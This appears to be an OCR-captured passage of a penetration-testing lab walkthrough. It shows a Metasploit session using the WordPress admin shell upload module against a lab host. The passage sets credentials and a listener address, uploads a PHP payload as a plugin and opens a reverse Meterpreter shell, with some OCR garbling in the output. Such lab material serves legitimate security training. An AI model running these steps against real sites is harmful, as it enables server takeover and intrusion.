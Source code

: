 **Module Selection**

```
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

**List Options**

```
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

### Exploitation

**Set Options**

```
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```
